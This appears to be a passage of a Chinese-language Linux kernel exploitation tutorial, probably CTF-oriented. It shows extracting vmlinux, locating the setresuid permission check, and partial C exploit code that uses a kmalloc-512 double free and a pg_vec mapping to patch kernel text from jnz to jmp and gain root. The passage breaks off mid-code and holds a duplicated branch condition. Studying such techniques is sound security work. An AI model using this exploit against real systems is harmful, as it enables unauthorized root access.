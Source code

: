 可以看到，在`setresuid`函数中，会校验是否有权限，导致默认情况下低权限用户无法修改自身的`uid`.

那么显然的是，我们可以修改这段逻辑。

我们从`bzImage`提取出`vmlinux`：

```bash
extract_vmlinux ./bzImage
```

随后再使用`vmlinux-to-elf`来获取其大部分符号：

```bash
vmlinux-to-elf ./vmlinux vmlinux_symbol
```

随后在`ida`中，可以看到判断的逻辑如下：

```c
.text:FFFFFFFF81086FD1                 call    ns_capable_setid
.text:FFFFFFFF81086FD6                 test    al, al
.text:FFFFFFFF81086FD8                 jnz     short loc_FFFFFFFF81087044 // 不为0则跳转
```

若我们将`jnz`改为`jmp`，即可让其无条件跳转，使得权限校验失效。即，我们希望将`0xFFFFFFFF81086FD8`地址处的值修改为`0xeb`。（`0xeb`即为`jmp`）

那么，假设有一个属于`kmalloc-512`的`double free`，整个流程为：

```c
int main(){
    bind_core(0);
    save_status();
    
    
    int pipe_fd[2];

    pipe(pipe_fd);
    pid_t pid = fork();

    if (!pid){
        add(); // 申请 kmalloc-512 的 obj

        delete(); // 释放

        int packet_fd = alloc_pgv(0x200 / 8, 0x1000); // 使用pg_vec占据

        delete(); // 释放

        /* 将pg_vec中存放的地址都改为0xFFFFFFFF81086FD8这一页的起始地址 */
        size_t* content = (size_t*)malloc(0x200);
        for(int i = 0 ; i<0x200/8 ; i++){
            content[i] = 0xFFFFFFFF81086000 + kernel_offset;
        }

        edit(content); // 示例，用setxattr等是一样的

        /* 映射到用户内存 */
        char *page = mmap(NULL, 0x1000 * (size / 8), PROT_READ | PROT_WRITE, MAP_SHARED, packet_fd, 0);
        page[0xFFFFFFFF81086FD8 - 0xFFFFFFFF81086000] = 0xeb; // 将指定位置修改为jmp
        write(pipe_fd[1], "E", 1);
        pause();
    }else if(!pid){
        char buf[1];
        read(pipe_fd[0], buf, 1);
        setresuid(0, 0, 0);

        if (!getuid())
        {
```